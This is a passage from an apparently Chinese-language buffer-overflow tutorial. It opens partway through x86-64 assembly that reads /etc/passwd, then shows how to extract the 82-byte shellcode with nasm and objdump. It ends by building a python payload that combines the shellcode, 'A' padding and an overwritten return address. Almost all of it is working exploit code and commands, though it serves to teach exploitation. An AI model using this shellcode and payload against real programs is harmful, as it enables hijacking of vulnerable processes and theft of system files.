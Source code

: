 ```
    xor rdx, rdx 
    mov dx, 0xfff   ; size to read 
    xor rax, rax 
    syscall 

    ; syscall write to stdout 
    xor rdi, rdi 
    add dil, 1 ; set stdout fd = 1 
    mov rdx, rax 
    xor rax, rax 
    add al, 1 
    syscall 

    ; syscall exit 
    xor rax, rax 
    add al, 60 
    syscall 

_push_filename: 
    call _readfile 
    path: db "/etc/passwdA" 

```

接下来汇编这个文件然后提取shellcode。

```
$ nasm -f elf64 readfile.asm -o readfile.o 
$ for i in $(objdump  -d readfile.o | grep "^ " | cut  -f2); do echo  -n  '\x'$i; done; echo 
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x6 
6\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x 
0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\ 
xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f 
\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41 

```

这个shellcode长82字节。来构造最终的载荷吧。

原来的载荷

```
$(python -c 'print "A" * 264 + "\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

我们要保证一样的大小所以264 - 82 = 182

```
$(python -c 'print "A" * 182 + "\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

然后把shellcode接在开头

```
$(python -c 'print  
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x 
66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\ 
x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31 
\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2 
f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```
